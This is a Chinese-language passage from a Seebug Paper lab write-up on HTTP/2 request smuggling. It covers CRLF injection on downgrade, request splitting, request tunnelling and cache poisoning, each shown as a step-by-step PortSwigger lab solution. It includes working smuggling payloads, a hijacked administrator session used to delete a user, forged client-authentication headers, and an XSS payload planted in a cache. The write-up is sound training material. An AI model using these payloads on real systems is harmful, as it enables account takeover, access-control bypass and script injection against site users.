网站即使采取措施阻止基本 H2.CL 或 H2.TE 攻击 (例如：验证 content-length 或剥离任何 transfer-encoding 头)，我们也可以通过利用 HTTP/2 的二进制格式中允许的一些方法来绕过这些前端措施，在 HTTP/1 中我们有时可以利用服务器处理独立换行符 (\\n) 方式之间的差异来走私被禁止的头。

### 走私原理

如果后端将独立换行符 (\\n) 作为分隔符，而前端服务器不这样做，那么一些前端服务器将根本检测不到第二个头。

```c
Foo: bar\nTransfer-Encoding: chunked
```

这种差异在处理完整的 CRLF (\\r\\n) 序列时并不存在，因为所有的 HTTP/1 服务器都认为这会终止标头，由于 HTTP/2 消息是二进制的，而不是基于文本的，所以每个报头的边界是基于显式的、预先确定的偏移量而不是定界符字符，这意味着\\r\\n在标头值中不再有任何特殊意义，因此可以包含在值本身中，而不会导致标头被拆分，这本身似乎相对无害，但是当它被重写为 HTTP/1 请求时，\\r\\n将再次被解释为标头分隔符，因此 HTTP/1 后端服务器会看到两个不同的头：

```C
Foo: bar
Transfer-Encoding: chunked
```

### 靶场示例

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection "https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection")

靶场介绍：本靶场容易受到请求走私的攻击，因为前端服务器会降级 HTTP/2 请求并且无法充分清理传入的标头，为了解决这个实验，你需要使用 HTTP/2-exclusive 请求走私向量来访问另一个用户的帐户，受害者每 15 秒访问一次主页。

演示过程：

Step 1：首先访问上述链接进入靶场，然后点击"ACCESS THELAB"进入靶场



Step 2：在 Burpsuite 中捕获请求数据包并展开"Inspector"的请求属性部分将协议设置为 HTTP/2，随后向请求添加一个任意的头，将序列\\r\\n追加到标头的值，后跟`Transfer-Encoding: chunked`

```c
bar\r\n
Transfer-Encoding: chunked
```


Body 部分如下所示：

```c
0
SMUGGLED
```

随后我们可以看到发送的每第二个请求会收到一个 404 响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀上



Step 3：随后构造如下请求数据包

```plain
0
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Content-Length: 800
search=x
```



发送请求然后立即刷新浏览器中的页面



此时运气好的会看到被外带出来的，中间需要多次尝试，有兴趣的可以去试试看



## 请求拆分

### 基本介绍

从上面的响应队列中毒中我们了解到了如何将一个 HTTP 请求拆分成为两个完整的请求，上面的例子拆分发生在消息体内部，但是当使用 HTTP/2 降级时，我们也可以使拆分发生在消息头中，例如：您甚至可以使用 GET 请求。

```c
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

### 重写请求

在报头中拆分请求时，我们需要了解前端服务器如何重写请求并在手动添加任何 HTTP/1 报头时考虑这一点，否则其中一个请求可能缺少强制标头，例如：您需要确保后端收到的两个请求都包含 host 头，在降级过程中前端服务器通常会去除:authority 伪标头并将其替换为新的 HTTP/1 主机标头，例如下面的重新请求：

```c
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

在重写过程中一些前端服务器会将新的主机头附加到当前头列表的末尾，就 HTTP/2 前端而言是位于在 foo 头之后，需要注意的是请求在后端被拆分的点之后，这意味着第一个请求根本没有 host，而走私的请求有两个，在这种情况下您需要定位注入的 host 头，以便发生分割时它会出现在第一个请求中。

```c
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
Host: vulnerable-website.com\r\n
\r\n
GET /admin HTTP/1.1
```

### 靶场示例

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection "https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection")

靶场介绍：本靶场容易受到请求走私的攻击，因为前端服务器会降级 HTTP/2 请求并且无法充分清理传入的标头，为了解决这个实验，你需要通过使用响应队列中毒进入位于/admin 的管理面板来删除用户 carlos，管理员用户大约每 10 秒登录一次。

靶场演示：

Step 1；首先访问上面的链接进入靶场并点击`ACCESS THELAB`



Step 2：使用 Burpsuite 抓包并更改协议为 HTTP/2，随后将路径更改为不存在的路径，比如：/x，这意味着我们正常情况下得到的都市 404 响应，但是如果我们一旦完成了对响应队列的毒化操作，那么我们将很容易识别到其他用户的响应信息



Step 3：随后使用"Inspector"在请求的末尾加入一个任意的头信息

```c
#Name
foo
#Value
bar\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net
```



Step 4：随后发送请求，前端服务器在降级期间会将\\r\\n\\r\\n附加到标头的末尾，而这实际上会将走私的前缀转换为完整的请求，从而毒化响应队列



随后我们可以捕获到 administrator 的 Session

```c
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=cyZcKafhXtFXWKThxfViUIkgfRkV9zep; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```



Step 5：随后发生请求查看可用的接口

```c
GET /my-account?id=administrator HTTP/2
Host: 0a590059045ceec6801b80f6009c0010.web-security-academy.net
Cookie: session=cyZcKafhXtFXWKThxfViUIkgfRkV9zep
```



访问/admin 路径获取到删除用户的接口信息



Step 6：直接调用接口删除用户

```c
GET /admin/delete?username=carlos HTTP/2
Host: 0a590059045ceec6801b80f6009c0010.web-security-academy.net
Cookie: session=cyZcKafhXtFXWKThxfViUIkgfRkV9zep
```



Step 7：随后完成解题



## 请求隧道

### 基本介绍

上面我们讨论的许多请求走私攻击之所以可以实现是因为前端和后端之间的相同连接处理多个请求，尽管有些服务器会为任何请求重用连接，但其他服务器有更严格的策略，例如：有些服务器只允许来自同一 IP 地址或同一客户端的请求重用连接，其他人根本不会重用连接，这限制了传统的请求走私所能实现的利用途径，因为没有明显的方法来影响其他用户的流量数据。



虽然不能毒害套接字来干扰其他用户的请求，但是我们仍然可以发送一个请求，从后端得到两个响应，这将有可能对前端实现完全隐藏请求及其匹配的响应，通过使用这种技术我们可以绕过前端安全措施，甚至一些专门为防止请求走私攻击而设计的机制也无法阻止请求隧道，这种方式将请求隧道传输到后端并提供了一种更有限的请求走私形式，其实 HTTP/1 和 HTTP/2 都可以实现请求隧道，但是在只有 HTTP/1 的环境中检测起来要困难得多，由于 HTTP/1 中持久 (保持活动) 连接的工作方式，即使您确实收到了两个响应，这也不一定能确认请求被成功走私，另一方面，在 HTTP/2 中每个"Stream"应该只包含一个请求和响应，如果您收到一个 HTTP/2 响应，其正文中似乎是一个 HTTP/1 响应，那么我们便可以确信已经成功地通过隧道传输了第二个请求。


### 头部泄露

假设我们发送了一个类似如下的请求来将内部头追加到将成为后端主体参数的内容中。

```c
:method POST
:path   /comment
:authority  vulnerable-website.com
content-type    application/x-www-form-urlencoded
foo 
bar\r\n
Content-Length: 200\r\n
\r\n
comment=
x=1
```

在这种情况下，前端和后端都同意只有一个请求，有趣的是可以让它们在报头结束的位置上产生分歧，前端将我们注入的所有内容都视为头部的一部分，因此在尾部 comment=string 之后，另一方面后端看到`\r\n\r\n`序列认为这是标头的结尾，`comment= string`以及内部头被视为正文的一部分。

```c
POST /comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
comment=X-Internal-Header: secretContent-Length: 3
x=1
```

### 靶场示例

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling "https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling")

靶场介绍：本靶场容易受到请求走私的攻击，因为前端服务器会降级 HTTP/2 请求并且无法充分净化传入的头名称，要解决该实验你需要以管理员用户身份访问/admin 中的管理面板并删除用户 carlos，需要注意的是本环境中前端服务器不重用到后端的连接，因此不容易受到传统的请求走私攻击，然而它仍然容易受到隧道请求的攻击。

靶场演示：

Step 1：首先访问以上靶场地址，然后点击`ACCESS THELAB`进入靶场



Step 2：在 Burpsuite 中捕获请求并将协议更改为 HTTP/2，随后使用 Inspector 将一个任意的头附加到请求的末尾并尝试在其名称中隐藏一个主机头，如下所示

```c
#Name
foo: bar\r\n
Host: abc
#Value
xyz
```



随后发送请求数据包可以看到此处存在对 abc 的链接，说明我的 CRLF 注入成功



Step 3：在浏览器中可以看到搜索功能，随后进行一个简单的检索



Step 4：在 burpsuite 中将协议升级为 HTTP/2，同时更改请求方法为 POST，添加一个任意头并使用其名称字段注入一个大的 Content-Length 和一个额外的搜索参数，如下所示

```c
#Name
foo: bar\r\n
Content-Length: 500\r\n
\r\n
search=x
#Value
xyz
```


Step 5：在请求的 Body 中将任意字符附加到原始搜索参数，直到请求长度超过走私的 Content-Length 头，发送请求就可以看到响应中出现了前端服务器附加到我们请求的标头信息

```c
Content-Length: 840
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 2244638774928226
```



Step 6：随后将请求方法改为 HEAD 并更改头部信息，在其中插入请求路径这样它就可以走私对 admin 面板的请求，包括三个客户端身份验证头，确保按如下方式更新它们的值

```c
#Name
foo: bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 2244638774928226\r\n
\r\n
#Value
xyz
```



发送请求您会看到收到一个错误响应表示说没有收到足够的字节，这是因为请求资源的内容长度比我们试图读取的隧道响应长，随后更改`:path`伪标头，使其指向返回较短资源的端点，在这种情况下我们可以使用/login，随后在响应中找到删除 carlos 的 URL，然后相应地更新隧道请求中的路径并重新发送完成解题



## 缓存投毒

### 基本介绍

请求隧道通常比传统的请求走私更受限制，但有时我们仍然可以构造高严重性的攻击，例如：我们可以将制作一个 Web 缓存投毒攻击，通过使用请求隧道可以有效地将一个响应的头部与另一个响应的主体混合和匹配，如果正文中的响应了未编码的用户输入，那么您可以在浏览器通常不会执行代码的上下文中利用这种行为来实现反射型 XSS，例如：以下响应包含未编码的、攻击者可控制的输入，其本身是相对无害的，但是这里的 Content-Type 则表示这个有效负载将被浏览器简单地解释为 JSON。

```c
HTTP/1.1 200 OK
Content-Type: application/json
{ "name" : "test<script>alert(1)</script>" }
[etc.]
```

如果我们将请求隧道传输到后端那么这个响应将会出现在另一个响应的主体中，有效地继承了它的头，包括内容类型

```c
:status 200
content-type    text/html
content-length  174
HTTP/1.1 200 OK
Content-Type: application/json
{ "name" : "test<script>alert(1)</script>" }
[etc.]
```

### 靶场示例

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling "https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling")

靶场介绍：这个靶场很容易受到请求走私的攻击，因为前端服务器会降低 HTTP/2 请求的级别并且不会始终如一地清除传入的标头，为了解决实验室问题你需要在缓存中投毒，当受害者访问主页时，他们的浏览器会执行 alert(1)，受害者用户将每 15 秒访问一次主页。

靶场演示：

Step 1：首先访问以上靶场链接并点击"ACCESS THELAB"进入靶场



Step 2：使用 Burpsuite 捕获用户的请求，然后通过"Inspector"将请求协议切换为 HTTP/2，并修改请求头部信息，走私一下内容

```c
#Name
:path
#Value
/?cachebuster=1 HTTP/1.1\r\n
Foo: bar
```



Step 3：从上面可以看到响应正常，说明我们可以借助:path 进行走私请求，随后改变请求方法为 HAED，试一下进行隧道传输，从响应正文中可以看到包含了：HTTP/1.1 200 OK，说明我们的走私成功

```c
/?cachebuster=1 HTTP/1.1\r\n
Host:0a8f00d80344b40981c0e8ab00300007.web-security-academy.net\r\n
\r\n
GET /post?postId=1 HTTP/1.1\r\n
Foo: bar
```



Step 4：随后我们需要找到一个基于 HTML 的 XSS 有效负载，而不编码或转义它可控点，发送对 GET /resources 的响应并观察到触发了到`/resources/`的重定向



Step 5：随后尝试通过:path 伪头隧道传输该请求，在查询字符串中包括 XSS 有效负载

```c
#Name
:path
#Vaule
/?cachebuster=3 HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script> HTTP/1.1\r\n
Foo: bar
```


Step 6：从上面可以注意到请求超时了，这是因为主响应中的 Content-Length 头比隧道请求的嵌套响应长，随后我们检查对普通 GET /请求的响应中的内容长度并记下其值



随后回到 Burp Repeater 中的恶意请求，在结束标记后添加足够多的任意字符来填充您的反射有效负载以便隧道响应的长度将超过您刚才提到的内容长度



随后重新发送数据包进行缓存投毒：



此时访问`/?cachebuster=3`成功触发恶意载荷



重定向操作



Step 7：随后我们直接移除"cachebuster"参数并对网站直接进行缓存投毒操作



此时可以看到直接访问即可触发恶意载荷，而不在是特定的链接





随后刷新页面完成解题：



## 防御措施

-   避免 HTTP/2 降级或者使用端到端的 HTTP/2
-   限制那些未标记的请求头，同时建议放弃继承 HTTP/1.1

## 参考链接

1. [https://hpbn.co/http2/](https://hpbn.co/http2/ " https://hpbn.co/http2/")  
2. [https://www.cnblogs.com/jiujuan/p/16939688.html](https://www.cnblogs.com/jiujuan/p/16939688.html " https://www.cnblogs.com/jiujuan/p/16939688.html")  
3\. [https://baike.baidu.com/item/HTTP%2F2/23202646](https://baike.baidu.com/item/HTTP%2F2/23202646 "https://baike.baidu.com/item/HTTP%2F2/23202646")  
4. [https://portswigger.net/web-security/request-smuggling/advanced#http-2-request-smuggling](https://portswigger.net/web-security/request-smuggling/advanced#http-2-request-smuggling " https://portswigger.net/web-security/request-smuggling/advanced#http-2-request-smuggling")  
5\. [https://zq99299.github.io/note-book2/http-protocol/06/02.html#%E4%BA%8C%E8%BF%9B%E5%88%B6%E5%B8%A7](https://zq99299.github.io/note-book2/http-protocol/06/02.html#%E4%BA%8C%E8%BF%9B%E5%88%B6%E5%B8%A7 "https://zq99299.github.io/note-book2/http-protocol/06/02.html#%E4%BA%8C%E8%BF%9B%E5%88%B6%E5%B8%A7")

- - -

 本文由 Seebug Paper 发布，如需转载请注明来源。本文地址：[https://paper.seebug.org/3109/](https://paper.seebug.org/3109/)

[↓↓↓](https://paper.seebug.org/3108/)  
  
← AFL 语法变异插件 Grammar-Mutator ...  
  
[↑↑↑](https://paper.seebug.org/3108/)

[全链基带漏洞利用分析（第 3 部分） →](https://paper.seebug.org/3101/)

[](https://paper.seebug.org/users/author/?nickname=Al1ex%40%E4%B8%83%E8%8A%92%E6%98%9F%E5%AE%9E%E9%AA%8C%E5%AE%A4)r

#### [Al1ex@七芒星实验室](https://paper.seebug.org/users/author/?nickname=Al1ex%40%E4%B8%83%E8%8A%92%E6%98%9F%E5%AE%9E%E9%AA%8C%E5%AE%A4)

阅读更多有关[该作者](https://paper.seebug.org/users/author/?nickname=Al1ex%40%E4%B8%83%E8%8A%92%E6%98%9F%E5%AE%9E%E9%AA%8C%E5%AE%A4)的文章

  

昵称 

邮箱 


提交评论

\* 注意：请正确填写邮箱，消息将通过邮箱通知！

#### 暂无评论
